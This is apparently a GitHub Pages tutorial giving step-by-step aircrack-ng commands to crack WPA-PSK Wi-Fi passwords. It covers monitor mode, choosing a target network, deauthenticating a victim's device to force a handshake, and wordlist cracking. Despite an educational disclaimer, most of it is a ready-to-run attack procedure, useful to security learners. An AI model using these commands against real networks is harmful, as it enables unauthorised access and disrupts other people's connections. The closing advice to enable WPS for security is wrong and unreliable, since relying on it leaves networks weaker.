 ```yaml
---
title: WPA-PSK Hacking
permalink: /wpa_psk_hacking/
layout: default
nav_order: 5
---
```


# **WPA-PSK HACKING**

When you enable Wi-Fi in public places, you'll encounter numerous networks that likely utilize **WPA-PSK (Wi-Fi Protected Access Pre-Shared Key) encryption**, which is commonly used in wireless networks to secure data transmission.

While it offers a level of security, there are **vulnerabilities** to consider. This guide will explore one of the most common methods of hacking **WPA-PSK** networks.

{: .warning-title }
Although these networks are susceptible to hacking, it is crucial to emphasize that this guide is **strictly for educational purposes**. Engaging in these activities on networks without proper authorization is **illegal**. This is for **educational purposes only**. Having addressed this disclaimer, let's explore the underlying mechanisms, the practical execution, and measures to safeguard yourself against such vulnerabilities.

## **Introduction**

When you connect to a network from a wireless device, a **handshake** is sent from the device to the **router**. This **handshake** contains the **encrypted password**.

While it's not possible to reverse the **encrypted password**, you can use a technique called a **word list attack**. A word list is a huge text file containing **thousands of passwords**. By comparing the encrypted **handshake** password with the passwords in the word list, you can determine the real password.

## **Requirements**

- `Linux` distro distribution;
- PC with a network card that supports `monitor mode`;
- Install the package `Aircrack-ng` with the command `sudo apt install aircrack-ng`;

## **Procedure**

### **Determine the Network Interface**

<div class="code-example" markdown="1">
Identify the wireless network interfaces, which usually start with (e.g. `wlp3s0`).
<br>This information will be needed later.
</div>
```bash
ip a
```

{: .important-title }
The "ip a" command in Linux displays network interface information, including **IP addresses**, **MAC addresses**, and **related configurations**. It is used for troubleshooting and network configuration purposes.

### **Enable Monitor Mode**

<div class="code-example" markdown="1">
Use the `airmon-ng` tool to switch your network card to monitor mode.
<br>It will break your internet connection temporarily.
</div>
```bash
airmon-ng start <wireless interface>
```

### **Verify Monitor Mode**

<div class="code-example" markdown="1">
Now, the wireless interface should be displayed as `<interface>mon` (e.g., `wlp3s0mon`).
<br>Run the command and It should appear `Mode: Monitor`.
</div>
```bash
iwconfig
```

{: .important-title }
If the wireless interface doesn't appear, it means your network card **doesn't support monitor mode**, and you'll need the external network card mentioned earlier.

### **Scan for Networks**

<div class="code-example" markdown="1">
Use `airodump-ng` to view the networks around you.
<br>This command will display a list of nearby networks along with their `BSSIDs` **(Network MAC Addresses)** and `channels`.
</div>
```bash
airodump-ng <wireless interface>mon
```

### **Target Network**

<div class="code-example" markdown="1">
Identify and copy/save the `BSSID` and `channel` of the network you wish to attack.
</div>

### **Capture the Handshake**

<div class="code-example" markdown="1">
This command will show all the devices currently connected to that network and the amount of `packets` being sent to each device.
<br>For example, watching a video will increase the number of packets sent to the device by a lot.
<br>Type this command in a new terminal window:
</div>
```bash
airodump-ng -d(--bssid) <BSSID> -w(--write) <filename> -c(--channel) <channel>  <wireless interface>mon
```

- `<BSSID>` - target network's BSSID;
- `<channel>` - target network's channel;
- `<filename>` - the desired name for the captured handshake file;
- `<wireless interface>mon` - the name of your wireless interface in monitor mode;

### **Deauthentication Attack**

<div class="code-example" markdown="1">
Now we need to to send `de-authentication packets` to the victim's device, forcing it to disconnect and reconnect to the network, so we can capture the `handshake`.
<br>Leave the previous terminal open (running) and use this command in another terminal:
</div>
```bash
aireplay-ng -0 10 -a <BSSID> -c <client ESSID> <wireless interface>mon
```

- `-0 10` - number of de-authentication packets to send;
- `-a <BSSID>` - target network's BSSID;
- `-c <client ESSID>` - ESSID (name) of the device you want to de-authenticate;
- `<wireless interface>mon` - the name of your wireless interface in monitor mode;

### **Capture the Handshake**

<div class="code-example" markdown="1">
Observe the terminal running `airodump-ng` capture the `handshake` and wait for the device to reconnect.
<br>Once the handshake is captured, you can see a message saying `WPA handshake: <BSSID>`.
<br>You can stop `airodump-ng` by pressing `Ctrl+C`.
<br>The captured handshake will be saved in the specified filename.
</div>

### **Word List Attack**
<div class="code-example" markdown="1">
Kali Linux comes with pre-installed word lists located in the directory `/usr/share/wordlists`.
<br>If you are not on Kali, you can download a word list from [here](https://www.kali.org/tools/wordlists).
<br>Now let's attempt to match the captured handshake with passwords from the word list.
</div>
```bash
aircrack-ng -w <wordlist> <filename>
```

- `<wordlist>` - path to the desired word list file (e.g. **/usr/share/wordlists/rockyou.txt**);
- `<filename>` - name of the captured **handshake** file;

### **Cracked!**
<div class="code-example" markdown="1">
Congratulations! If the password is found in the word list, it will be displayed.
<br>After performing these steps, your internet connection may still be interrupted.
<br>To fix this, you can either restart your computer or execute the command:
</div>
```bash
airmon-ng stop <monitor interface>
systemctl restart network*
```

## **Protecting Yourself**
While you cannot prevent the authentication process, you can protect against word list attacks by choosing a long and random password that is unlikely to be found in any word list, like **passphrases**. Additionally, you can enable **MAC address filtering** and **WPS (Wi-Fi Protected Setup)** to enhance security.

## **Conclusion**
We explored the process of WPA-PSK hacking. It is essential to respect **privacy** and **legality** when using these techniques. We learned about capturing **handshakes**, performing **de-authentication attacks**, and cracking passwords using **word lists**. Remember to always use this knowledge responsibly and protect yourself.